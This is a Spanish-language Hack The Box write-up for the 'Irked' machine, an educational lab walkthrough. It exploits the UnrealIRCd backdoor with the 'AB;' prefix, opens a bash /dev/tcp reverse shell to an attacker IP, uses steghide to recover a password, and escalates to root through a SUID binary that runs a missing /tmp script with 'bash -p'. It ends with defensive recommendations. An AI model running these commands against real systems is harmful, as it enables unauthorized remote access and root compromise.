# Irked — Hack The Box

**Plataforma:** Hack The Box  
**Dificultad:** 🟢 Fácil  
**SO:** Linux  
**Autor de la máquina:** MrAgent  
**Fecha de resolución:** 2026  
**Técnicas:** Nmap · UnrealIRCd · Backdoor Command Execution · Reverse Shell · TTY Treatment · Esteganografía · Steghide · SUID Binary · Privilege Escalation

---

## Índice

1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración de servicios](#2-enumeración-de-servicios)
3. [Acceso inicial — UnrealIRCd Backdoor](#3-acceso-inicial--unrealircd-backdoor)
4. [Obtención de shell y tratamiento de la TTY](#4-obtención-de-shell-y-tratamiento-de-la-tty)
5. [Movimiento lateral — Esteganografía](#5-movimiento-lateral--esteganografía)
6. [Escalada de privilegios — Binario SUID](#6-escalada-de-privilegios--binario-suid)
7. [Post-explotación y flags](#7-post-explotación-y-flags)
8. [Lección aprendida](#8-lección-aprendida)

---

## 1. Reconocimiento

Comenzamos comprobando conectividad con la máquina objetivo mediante ICMP.

```bash
ping -c 1 10.129.36.156
```



Salida obtenida:

```text
64 bytes from 10.129.36.156: icmp_seq=1 ttl=63 time=33.2 ms
```

> 💡 El parámetro `-c 1` envía un único paquete ICMP. Solo necesitamos verificar conectividad. El valor `TTL=63` suele indicar que estamos frente a una máquina Linux (el valor por defecto es 64 y se decrementa en cada salto de red).

---

### Escaneo inicial de puertos

Realizamos un escaneo completo de todos los puertos TCP con Nmap.

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 10.129.36.156 -oN AllPorts
```



### Explicación de parámetros utilizados

| Parámetro | Función |
|---|---|
| `-sS` | SYN Scan rápido y sigiloso |
| `-Pn` | Omite descubrimiento por ping |
| `-vvv` | Máximo nivel de verbosidad para ver los puertos en vivo |
| `--min-rate 5000` | Fuerza una velocidad mínima de 5000 paquetes por segundo |
| `--open` | Muestra solo puertos abiertos |
| `-n` | Evita resolución DNS |
| `-p-` | Escanea los 65535 puertos TCP |
| `-oN` | Guarda el resultado en formato normal |

Resultado relevante:

```text
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
8067/tcp  open  infi-async
65534/tcp open  unknown
```

> 💡 La presencia de varios puertos asociados a IRC (`6697`, `8067`, `65534`) es inusual y llamativa: sugiere un servicio de chat antiguo que históricamente ha sido objetivo de backdoors conocidos.

---

## 2. Enumeración de servicios

Una vez identificados los puertos abiertos, realizamos un escaneo más profundo con detección de versiones y scripts NSE.

```bash
nmap -sS -sCV -T5 -p22,80,111,6697,8067,65534 10.129.36.156 -oN Ports
```



### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `-sCV` | Ejecuta detección de versiones y scripts NSE por defecto |
| `-T5` | Timing agresivo para acelerar el escaneo |

Salida relevante:

```text
22/tcp    open  ssh   OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp    open  http  Apache httpd 2.4.10 ((Debian))
111/tcp   open  rpcbind 2-4 (RPC #100000)
6697/tcp  open  irc   UnrealIRCd
8067/tcp  open  irc   UnrealIRCd
65534/tcp open  irc   UnrealIRCd
Service Info: Host: irked.htb; OS: Linux
```

> 💡 El servicio **UnrealIRCd** queda confirmado en tres puertos distintos. Esta versión de UnrealIRCd es famosa por haber sido distribuida con un **backdoor** inyectado en su código fuente entre 2009 y 2010, lo que la convierte en el vector de entrada más prometedor.

---

## 3. Acceso inicial — UnrealIRCd Backdoor

Buscamos exploits públicos asociados al servicio detectado mediante `searchsploit`.

```bash
searchsploit UnrealIRCd
```



Resultado relevante:

```text
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)   | linux/remote/16922.rb
```

> 💡 El exploit `16922.rb` corresponde al backdoor de UnrealIRCd 3.2.8.1. Antes de lanzar nada a ciegas, conviene **leer el código del exploit** para entender exactamente cómo se dispara la ejecución de comandos.

---

### Análisis del exploit

Inspeccionamos el contenido del módulo Ruby con resaltado de sintaxis.

```bash
searchsploit -x linux/remote/16922.rb | cat -l ruby
```


Al revisar la sección `exploit` del módulo encontramos la clave del backdoor:



```ruby
print_status("Sending backdoor command...")
sock.put("AB;" + payload.encoded + "\n")
```

### Explicación de la vulnerabilidad

| Elemento | Función |
|---|---|
| `connect` | Establece la conexión TCP contra el puerto IRC |
| `AB;` | Cadena mágica que activa el backdoor oculto en el binario |
| `payload.encoded` | Comando arbitrario que se ejecuta en el sistema |
| `\n` | Salto de línea que confirma el envío al servidor |

> 💡 El backdoor se dispara enviando cualquier línea que comience por el prefijo `AB;`. Todo lo que se escriba a continuación se ejecuta directamente en la shell del servidor con los privilegios del servicio IRC. Esto nos permite explotar la máquina **manualmente**, sin depender de Metasploit.

---

### Prueba de concepto — confirmación de RCE

Antes de lanzar una reverse shell, validamos que la ejecución de comandos funciona. Nos conectamos con `nc` a uno de los puertos de UnrealIRCd y enviamos un `ping` hacia nuestra máquina, mientras escuchamos el tráfico ICMP con `tcpdump`.

```bash
# Terminal 1 — conexión al backdoor
nc 10.129.36.156 65534
AB; ping -c 1 10.10.14.63

# Terminal 2 — captura de tráfico ICMP
sudo tcpdump -i tun0 icmp -n
```



En la captura observamos los paquetes `ICMP echo request` procedentes de la víctima:

```text
20:06:55.110330 IP 10.129.36.156 > 10.10.14.63: ICMP echo request, id 4043, seq 1, length 64
20:06:55.110341 IP 10.10.14.63 > 10.129.36.156: ICMP echo reply,   id 4043, seq 1, length 64
```

> 💡 La recepción de los paquetes ICMP confirma que el backdoor ejecuta nuestros comandos. La máquina víctima nos está "hablando", lo que valida el RCE de forma inequívoca.

---

## 4. Obtención de shell y tratamiento de la TTY

Confirmado el RCE, escalamos la prueba a una reverse shell interactiva. Iniciamos un listener con Netcat.

```bash
nc -lvnp 443
```

### Explicación

| Parámetro | Función |
|---|---|
| `-l` | Modo escucha |
| `-v` | Verbose |
| `-n` | No resuelve DNS |
| `-p 443` | Puerto de escucha (443 suele evadir filtrados de salida) |

A continuación, desde la conexión al backdoor, enviamos el payload de reverse shell:

```bash
AB; bash -c 'bash -i >& /dev/tcp/10.10.14.63/443 0>&1'
```



Recibimos la conexión en nuestro listener como el usuario `ircd`:

```text
listening on [any] 443 ...
connect to [10.10.14.63] from (UNKNOWN) [10.129.36.156] 48124
ircd@irked:~/Unreal3.2$
```

---

### Tratamiento de la TTY

La shell obtenida no es interactiva (no permite usar `sudo`, autocompletado ni control de procesos). Realizamos un tratamiento completo de la TTY.

```bash
script /dev/null -c bash
# Ctrl + Z para suspender la shell
stty raw -echo; fg
reset xterm
```



### Explicación del tratamiento

| Comando | Función |
|---|---|
| `script /dev/null -c bash` | Genera una pseudo-TTY real descartando el log |
| `Ctrl + Z` | Suspende la shell y devuelve el control a nuestra terminal |
| `stty raw -echo` | Desactiva el eco local y el procesamiento de caracteres |
| `fg` | Reanuda la shell remota en primer plano |
| `reset xterm` | Reinicializa la terminal con un tipo válido |

Finalmente ajustamos el tamaño de la terminal y la variable `TERM` para que la sesión sea completamente funcional.

```bash
export TERM=xterm
stty rows 24 columns 80
```



> 💡 Un tratamiento correcto de la TTY permite usar herramientas interactivas (`su`, `nano`, `vi`), el historial de comandos y `Ctrl+C` sin perder la sesión.

---

## 5. Movimiento lateral — Esteganografía

### Enumeración del directorio home

Exploramos los directorios de usuario. En `/home/djmardov` encontramos la flag de usuario, pero **no tenemos permisos** para leerla con el usuario actual.

```bash
cd /home
ls
cd djmardov
ls
cat user.txt
```



```text
cat: user.txt: Permission denied
```

> 💡 Necesitamos pivotar al usuario `djmardov` para leer la flag. Buscaremos credenciales o información sensible dentro de su directorio.

---

### Búsqueda de ficheros ocultos

Listamos de forma recursiva todos los archivos del home del usuario, incluyendo los ocultos.

```bash
find . 2>/dev/null
```



Entre los resultados destaca un fichero oculto sospechoso:

```text
./Documents/.backup
```

> 💡 La redirección `2>/dev/null` descarta los errores de "permiso denegado", dejando una salida limpia y legible. Los ficheros que comienzan por punto (`.backup`) no aparecen en un `ls` normal y suelen contener información que el usuario quiere ocultar.

---

### Lectura del backup

```bash
cat ./Documents/.backup
```



```text
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

> 💡 El propio fichero indica que se trata de una contraseña de **esteganografía** (`steg`). Esto sugiere que existe un archivo —probablemente una imagen— con datos ocultos protegidos por esta clave.

---

### Descarga de la imagen del servidor web

Revisamos el servicio web del puerto `80` y encontramos una imagen incrustada en la página. La descargamos a nuestra máquina.

```text
http://10.129.36.156
```



```bash
wget http://10.129.36.156/irked.jpg
```

> 💡 La página muestra una cara enfadada con el texto *"IRC is almost working!"*. La imagen `irked.jpg` es la candidata perfecta para contener los datos ocultos mencionados en el backup.

---

### Extracción con Steghide

Usamos `steghide` junto con la contraseña obtenida para extraer el contenido oculto de la imagen.

```bash
steghide extract -sf irked.jpg
```



Al introducir la contraseña `UPupDOWNdownLRlrBAbaSSss`, la herramienta extrae un fichero `pass.txt`:

```bash
cat pass.txt
```

```text
Kab6h+m+bbp2J:HG
```

### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `extract` | Modo de extracción de datos ocultos |
| `-sf` | *Stego file*: archivo portador que contiene la información |

---

### Acceso como djmardov

Con la contraseña recuperada, pivotamos al usuario `djmardov`.

```bash
su djmardov
# Password: Kab6h+m+bbp2J:HG
id
```



```text
uid=1000(djmardov) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),...
```

✅ Pivot lateral conseguido. Ahora podemos leer la flag de usuario.

---

## 6. Escalada de privilegios — Binario SUID

### Búsqueda de binarios SUID

Buscamos binarios con el bit SUID activado, ya que se ejecutan con los privilegios de su propietario (habitualmente `root`).

```bash
find / -perm -4000 2>/dev/null
```



Entre los binarios estándar aparece uno claramente fuera de lo común:

```text
/usr/bin/viewuser
```

> 💡 `viewuser` no es un binario propio del sistema. Un ejecutable SUID personalizado y con nombre llamativo es casi siempre el vector de escalada de privilegios.

---

### Análisis del binario

```bash
ls -la /usr/bin/viewuser
```



```text
-rwsr-xr-x 1 root root 7328 May 16  2018 /usr/bin/viewuser
```

> 💡 El bit `s` en los permisos del propietario (`-rws`) confirma que el binario es **SUID root**: se ejecutará con privilegios de `root` independientemente de quién lo lance.

---

### Comportamiento del binario

Ejecutamos `viewuser` para observar su funcionamiento.

```bash
/usr/bin/viewuser
```



```text
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2026-05-14 13:57 (:0)
sh: 1: /tmp/listusers: not found
```

> 💡 El binario intenta ejecutar `/tmp/listusers`, un fichero que **no existe**. Como `viewuser` corre como `root`, cualquier script que coloquemos en esa ruta se ejecutará con privilegios máximos. Este es un fallo de **ruta no controlada / fichero faltante**.

---

### Creación del fichero malicioso

Creamos `/tmp/listusers`, le otorgamos permisos de ejecución y verificamos el comportamiento.

```bash
cd /tmp
touch listusers
/usr/bin/viewuser          # → Permission denied
chmod +x listusers
/usr/bin/viewuser          # → ya se ejecuta, pero el fichero está vacío
```



> 💡 Tras `chmod +x`, `viewuser` ejecuta el fichero sin errores. Solo falta dotarlo de contenido: un payload que nos devuelva una shell con privilegios elevados.

---

### Payload de escalada

Editamos `/tmp/listusers` para que lance una shell preservando los privilegios SUID.

```bash
#!/bin/bash
bash -p
```



### Explicación del payload

| Componente | Función |
|---|---|
| `#!/bin/bash` | Shebang que indica el intérprete del script |
| `bash -p` | Inicia Bash en **modo privilegiado**, manteniendo el `EUID` de root heredado del binario SUID |

> 💡 El flag `-p` es la clave: sin él, Bash descartaría los privilegios elevados al arrancar. Con `-p`, la shell conserva el `EUID=0` que `viewuser` le transfiere.

---

### Obtención de shell como root

Ejecutamos `viewuser` por última vez para disparar nuestro payload.

```bash
/usr/bin/viewuser
whoami
```



```text
root@irked:/tmp# whoami
root
```

✅ Compromiso total de la máquina.

---

## 7. Post-explotación y flags

Con privilegios de `root`, recolectamos ambas flags del sistema.

La flag de usuario, accesible tras pivotar a `djmardov`:

```bash
cat /home/djmardov/user.txt
```

Y la flag de root:

```bash
cat /root/root.txt
```



```text
c0a9580a99b0756695bed57e3b778bbc
```

✅ Máquina completada.

---

## 8. Lección aprendida

Esta máquina encadena una serie de fallos clásicos que combinan software vulnerable, malas prácticas de almacenamiento de credenciales y un binario SUID inseguro.

| Vulnerabilidad | Dónde | Impacto |
|---|---|---|
| Software con backdoor | UnrealIRCd 3.2.8.1 | Ejecución remota de comandos no autenticada |
| Credenciales en fichero oculto | `/home/djmardov/Documents/.backup` | Filtración de la clave de esteganografía |
| Datos sensibles ocultos en imagen | `irked.jpg` (steghide) | Recuperación de la contraseña de `djmardov` |
| Binario SUID inseguro | `/usr/bin/viewuser` | Ejecución de fichero arbitrario como root |
| Ruta de fichero no controlada | `/tmp/listusers` | Escalada directa a root |

---

## Recomendaciones defensivas

- Mantener el software actualizado y verificar la integridad de las fuentes; nunca usar versiones de UnrealIRCd anteriores a la corrección del backdoor.
- No almacenar credenciales ni claves en ficheros de texto plano, ni siquiera ocultos.
- Evitar la esteganografía como mecanismo de "seguridad por oscuridad": no protege la información real.
- Auditar y minimizar los binarios SUID del sistema; eliminar los que no sean estrictamente necesarios.
- Nunca invocar ficheros desde rutas escribibles por cualquier usuario (`/tmp`) en procesos privilegiados; usar rutas absolutas y controladas.
- Monitorizar la creación de ficheros en `/tmp` y la ejecución de binarios SUID personalizados.
- Aplicar el principio de mínimo privilegio en servicios de red y segmentar el acceso a puertos no esenciales.

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*  
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
